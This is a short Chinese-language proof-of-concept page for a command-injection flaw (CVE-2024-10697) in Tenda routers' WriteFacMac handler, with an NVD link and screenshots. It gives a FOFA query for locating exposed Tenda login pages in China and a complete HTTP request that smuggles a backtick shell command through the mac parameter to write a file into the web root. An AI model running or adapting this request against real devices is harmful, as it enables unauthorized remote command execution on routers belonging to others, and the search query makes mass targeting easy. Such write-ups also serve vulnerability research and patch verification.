 # tenda路由器WriteFacMac存在远程命令执行漏洞(CVE-2024-10697)

## fofa

```javascript
title="Tenda | LOGIN" && country="CN"
```

## poc

```javascript
GET /goform/WriteFacMac?mac=`ls%20%3E/webroot/1.txt` HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cache-Control: max-age=0
Connection: keep-alive
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501061038061.png)


![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501061038043.png)

## 漏洞来源

- https://nvd.nist.gov/vuln/detail/CVE-2024-10697